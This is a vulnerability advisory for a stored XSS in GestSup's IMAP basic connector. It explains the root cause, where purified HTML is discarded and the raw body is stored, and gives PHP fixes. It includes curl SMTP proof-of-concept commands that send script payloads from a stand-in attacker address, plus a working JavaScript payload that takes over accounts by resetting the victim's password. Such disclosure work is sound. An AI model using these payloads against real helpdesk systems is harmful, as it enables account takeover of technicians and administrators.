



# CVE-2026-102372: GestSup

**Unauthenticated stored XSS via IMAP email body (basic connector)**

**Severity:** Medium · **Class:** Stored XSS · **Fixed in:** 3.2.61

## Summary

In GestSup's IMAP `LOGIN` connector (`core/imap_basic.php`), the HTML body of incoming emails is sanitized with `HTMLPurifier` into `$description`, but the variable stored in the database is the unsanitized `$message`, which makes the sanitization dead code. `<script>` tags and `on*` event handlers survive and are rendered without encoding in the web interface, so an unauthenticated attacker who sends a crafted email obtains stored XSS in the browser of any user opening the ticket, including technicians and administrators. Both ticket creation and ticket replies are affected.

## Prerequisites

1. The installation runs an affected version. I personally tested this vulnerability on `3.2.59` (latest stable) and `3.2.60` (latest beta) and both are vulnerable. According to the comments in the `imap_basic.php` file, the last version that modified this file is `3.2.50`, so at least all versions from this one onwards are vulnerable, but I was unable to test them. The versions before `3.2.50` could also be vulnerable.
2. The IMAP connector is configured with the `LOGIN` authentication type. The environments using `XOAUTH2 Azure`, `XOAUTH2 Google` or `LOGIN v2` are not impacted as the parsing is not done by `core/imap_basic.php`.
3. The attacker knows the email address used by the company
4. A user (technician or administrator) opens the resulting ticket

No GestSup account is required to deliver the payload.

## Root cause

GestSup's IMAP connector (`mail2ticket.php`) transforms incoming emails into tickets or replies. There are two cases of parsing:
- `core/imap_oauth.php`: if the authentication type is `XOAUTH2 Azure`, `XOAUTH2 Google` or `LOGIN v2`
- `core/imap_basic.php`: if the authentication type is `LOGIN`

If the `LOGIN` option is configured, the parsing is done by the `core/imap_basic.php` file.
```php
if($rparameters['imap_auth_type']=='oauth_azure' || $rparameters['imap_auth_type']=='login2' || $rparameters['imap_auth_type']=='oauth_google') 
{
    //Webklex/php-imap
    require('core/imap_oauth.php');
} else { //basic auth
    //php-imap/php-imap
    require('core/imap_basic.php'); // <-- HERE
}
```

In the `imap_basic.php` file, if the email is an HTML email, the HTML content is assigned to both `$message` and `$description` variables.
```php
$message = $mail->textHtml;
$description = $mail->textHtml;
```

Then, the following code block sanitizes the `$description` variable with `HTMLPurifier`.
```php
//sanitize body HTML
$config = HTMLPurifier_Config::createDefault();
if(preg_match('/Linux/',PHP_OS)) //enable cache on Linux
{
    //create cache dir
    if(!is_dir(__DIR__.'/../upload/html_purifier'))
    {
        if(is_writeable(__DIR__.'/../upload/index.htm')) {mkdir(__DIR__.'/../upload/html_purifier');} else {LogIt('error','ERROR 41 : unable to create upload/html_purifier folder',0);}
    }
    if(is_dir(__DIR__.'/../upload/html_purifier')){
        $config->set('Cache.SerializerPath', __DIR__.'/../upload/html_purifier');}else {
        LogIt('error','ERROR 42 : unable to find upload/html_purifier',0);
    }
} else { //disable cache on Windows
    $config->set('Cache.DefinitionImpl', null);
}
$config->set('URI.AllowedSchemes',  array('data' => true, 'http' => true, 'https' => true));
$purifier = new HTMLPurifier($config);
$description = $purifier->purify($description);
```

The problem is that, after this sanitization, the variable used to insert the ticket content into the database is `$message` and not `$description`. Since `$message` was never passed through HTMLPurifier, it still holds the raw, unsanitized HTML from the email. The purified `$description` is effectively discarded, rendering the entire sanitization step dead code.

The `$message` variable is sanitized minimally, with a blacklist applied to some HTML tags, but the blacklist does not cover `<script>` tags or `on*` event handlers.

The responsible code is:
```php
// [...]
} else { //create ticket
    // [...]
    else //html case
    {
        //update img link
        // [...]
        
        //sanitize HTML
        $message=str_replace('<input','< input',$message); //remove input 
        $message=str_replace('<output','< output',$message); //remove input 
        $message=str_replace('<textarea','< textarea',$message); //remove input 
        $message=str_replace('<select','< select',$message); //remove input 
        $message=str_replace('<data','< data',$message); //remove input 
        $message=str_replace('<datalist','< datalist',$message); //remove input 
        $message=str_replace('<menu','< menu',$message); //remove input 
        $message=str_replace("text-decoration:underline;", "", $message);
        $message=preg_replace('/(<(base)\b[^>]*>)/is', "", $message); //remove base link
        $message=preg_replace('/(<(body)\b[^>]*>)/is', "<body>", $message); //remove body attribute such as background #4722
        
        //convert encoding from ISO TO UTF8
        $message_encoding=mb_detect_encoding($message, ['ASCII', 'UTF-8', 'ISO-8859-1'], true);
        if($message_encoding=='ISO-8859-1') {
            $message = mb_convert_encoding($message, 'UTF-8', 'ISO-8859-1'); 

            if($cmd) {
                echo '['.$mailbox.'] [mail '.$count.'] MESSAGE ENCODING CONVERSION : FROM ISO-8859-1 TO UTF-8'.PHP_EOL;
            } else {
                echo '['.$mailbox.'] [mail '.$count.'] MESSAGE ENCODING CONVERSION : <span style="color:green">FROM ISO-8859-1 TO UTF-8</span><br />';
            }
        }

        //add header informations
        $message=$description_header.$message;
        
        //update description
        $qry=$db->prepare("UPDATE `tincidents` SET `description`=:description WHERE `id`=:id");
        $qry->execute(array('description' => $message,'id' => $c_ticket_number)); // <- $message is set as ticket description
    }
// [...]
```

Since `$message` is not completely sanitized, an email HTML body containing something like: `<script>alert(document.domain)</script>` will not be cleaned and will be stored in the ticket description.

## Proof of concept

I used a dockerized version of GestSup available [on my GitHub](https://github.com/SpiizN/gestsup-docker), and added a GreenMail service:
```yaml
greenmail:
    image: greenmail/standalone:latest
    restart: always
    container_name: greenmail
    ports:
        - '1025:3025'
        - '1143:143'
        - '8090:8080'
    environment:
        GREENMAIL_OPTS: >-
        -Dgreenmail.setup.test.smtp
        -Dgreenmail.imap.port=143
        -Dgreenmail.hostname=0.0.0.0
        -Dgreenmail.users=support@example.com:support
```

On GestSup, I updated the service to the latest version of the `beta` channel (3.2.60) and configured the IMAP connector:


To exploit this, I used the GreenMail SMTP server to send an email to the configured INBOX. The command below is in [this script](./poc/exploit.sh):
```
curl -s --url "smtp://localhost:1025" \
  --mail-from "attacker@evil.com" \
  --mail-rcpt "support@example.com" \
  --upload-file - <<EOF
From: attacker@evil.com
To: support@example.com
Subject: XSS
Content-Type: text/html

<script>alert(document.domain)</script>
EOF
```

Then, when the emails are imported, the `XSS` ticket will be created containing the payload:
```
[support@example.com] Detect mail in mailbox : YES
[support@example.com] [mail 1] Mail date : 2026-05-12T16:49:05+02:00
[support@example.com] [mail 1] Import mail "XSS": OK
[support@example.com] [mail 1] Create new ticket : OK (2)
[support@example.com] [mail 1] Content type detected : textHtml
[support@example.com] [mail 1] Encoding type detected : ASCII
[support@example.com] [mail 1] Post-treatment action : UNREAD
[support@example.com] Time : 0 sec.
```



When a user opens the ticket, the XSS will trigger in the victim's browser (e.g., the technician or administrator).



The same vulnerability also applies to ticket replies.

For example, this command replies to the ticket ID "10" and delivers an XSS payload:
```
curl -s --url "smtp://localhost:1025" \
  --mail-from "attacker@evil.com" \
  --mail-rcpt "support@example.com" \
  --upload-file - <<EOF
From: attacker@evil.com
To: support@example.com
Subject: =?UTF-8?B?bsKwMTA6IFhTUyByZXBseQ==?=
Content-Type: text/html

<html><script>alert(document.domain)</script></html>
EOF
```

> The subject is base64-encoded to correctly transmit the ° character in the subject line.

The `<html>` tags are necessary since `strip_tags()` is applied if they are absent:
```php
if(!preg_match("/<HTML/i",$message)){$message=strip_tags($message,'<p><a><span><br><div>');}
```

The vulnerability therefore affects both paths: ticket creation and ticket replies.

## Impact

Through this XSS, an attacker could take over the account of any technician or administrator who opens the ticket by changing the victim's password. The full payload that does this change is:
```html
<html><script>
(async()=>{
    const password = 'password'
    const uid = [...document.querySelectorAll('a[href*="userid="]')]
        .map(a=>a.href.match(/userid=(\d+)/)?.[1])
        .find(id=>id&&id!=='0');
    if(!uid) return;
    const r = await fetch('/index.php?page=admin/user&action=edit&userid='+uid+'&tab=infos',{credentials:'include'});
    const html = await r.text();
    const doc = new DOMParser().parseFromString(html,'text/html');
    const form = doc.getElementById('edit_user');
    if(!form) return;
    const p = new URLSearchParams();
    for(const e of form.elements){
        if(!e.name||((e.type==='radio'||e.type==='checkbox')&&!e.checked)||e.type==='password') continue;
        p.append(e.name,e.value);
    }
    p.set('modify','1');p.set('password',password);p.set('password2',password);
    const r2 = await fetch('/index.php?page=admin/user&action=edit&userid='+uid,{method:'POST',credentials:'include',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:p.toString()});
})();
</script></html>
```

When this executes in the victim's browser, their password will be changed to the value `password`.

Note that a strict Content Security Policy (CSP) configured at the web server level (e.g., Apache, nginx) may prevent inline script execution, limiting the impact in hardened environments. In the absence of such controls, the XSS can lead to full account takeover, as demonstrated above.

## Mitigation

The fix is not trivial because `$message` is overwritten by `barbushin_func_attachement()` (which returns the HTML body of the email with internal image links resolved) after the `HTMLPurifier` call. This means the purification must be applied after `barbushin_func_attachement()` returns, not before. 

There are two vulnerable code paths in `imap_basic.php`, both requiring the same fix:

In the "create ticket" path (HTML case), apply `HTMLPurifier` on `$message` after the blacklist sanitization and before prepending the `$description_header`, so that only the email body is purified (the header is trusted, generated server-side):

```php
// purify $message after barbushin_func_attachement overwrote it
$message = $purifier->purify($message);

// add header informations
$message = $description_header.$message;

// update description
$qry=$db->prepare("UPDATE `tincidents` SET `description`=:description WHERE `id`=:id");
$qry->execute(array('description' => $message, 'id' => $c_ticket_number));
```

In the "update ticket" path, apply `HTMLPurifier` on `$message` after the blacklist sanitization, before the `INSERT INTO tthreads`:

```php
// purify $message after barbushin_func_attachement overwrote it
$message = $purifier->purify($message);

// insert thread in ticket
$qry=$db->prepare("INSERT INTO `tthreads` (`ticket`,`date`,`author`,`text`) VALUES (:ticket,:date,:author,:text)");
$qry->execute(array('ticket' => $find_ticket_number, 'date' => $datetime, 'author' => $user_id, 'text' => $message));
```

## References

- https://nvd.nist.gov/vuln/detail/CVE-2026-102372
- https://blog.spiizn.xyz/articles/remote-code-execution-turning-a-ticket-into-a-new-issue/